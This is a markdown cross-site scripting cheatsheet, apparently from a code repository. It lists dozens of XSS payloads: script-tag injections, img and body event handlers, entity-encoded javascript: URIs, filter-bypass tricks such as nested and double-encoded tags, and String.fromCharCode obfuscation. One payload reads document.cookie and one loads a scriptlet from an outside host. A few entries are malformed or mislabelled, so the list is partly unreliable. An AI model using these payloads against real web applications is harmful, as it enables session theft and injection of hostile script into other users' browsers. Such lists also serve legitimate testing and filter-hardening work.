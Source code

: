 # XSS Cheatsheet:
## Basics:
- `<script>alert("XSS")</script>`
- `<script>alert("XSS");</script>`
- `<script>alert('XSS')</script>`
- `"><script>alert("XSS")</script>`
- `<script>alert(/XSS")</script>`
- `<script>alert(/XSS/)</script>`

## When inside Script Tags:

- `</script><script>alert(1)</script>`
- `'; alert(1);`
- `')alert(1);//`

## Bypassing with Toggle Case:

- `<script>alert(1)</script>`
- `<img src=javascript:alert('XSS')>`

## XSS in Image and HTML Tags:

- `<img src="javascript:alert('XSS')">`
- `<img src=javascript:alert("XSS")>`
- `<img src=javascript:alert('XSS')>`
- `<img src=xss onerror=alert(1)>`
- `<img """><script>alert("XSS")</script>">`
- `<img src=javascript:alert(String.fromCharCode(88,83,83))>`
- `<img src="javascript:alert('XSS')">`
- `<img src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;('XSS')>`
- `<img src=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`
- `<img src=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>`
- `<body background="javascript:alert('XSS')">`
- `<body onload=alert('XSS')>`
- `<input type="image" src="javascript:alert('XSS');">`
- `<img src="javascript:alert('XSS')">`
- `<iframe src=http://ha.ckers.org/scriptlet.html <`

## Bypassing the Script Tag Filtering:

- `<<script>alert("XSS");//<</script>`
- `%253cscript%253ealert(1)%253c/script%253e`
- `" ><s"+ "cript>alert(document.cookie)</script>`
- `foo<script>alert(1)</script>`
- `<scr<script>ipt>alert(1)</scr<script>ipt>`

## Using String.fromCharCode Function:

- `<script>String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</script>`
- `';alert(String.fromCharCode(88,83,83))//'";alert(String.fromCharCode(88,83,83))//'";alert(String.fromCharCode(88,83,83))//'>;<script>alert(String.fromCharCode(88,83,83))</script>`

Reference: <a href="https://breakthesecurity.cysecurity.org/2012/02/complete-cross-site-scriptingxss-cheat-sheets-part-1.html"> BreakTheSecurity.org/...</a>
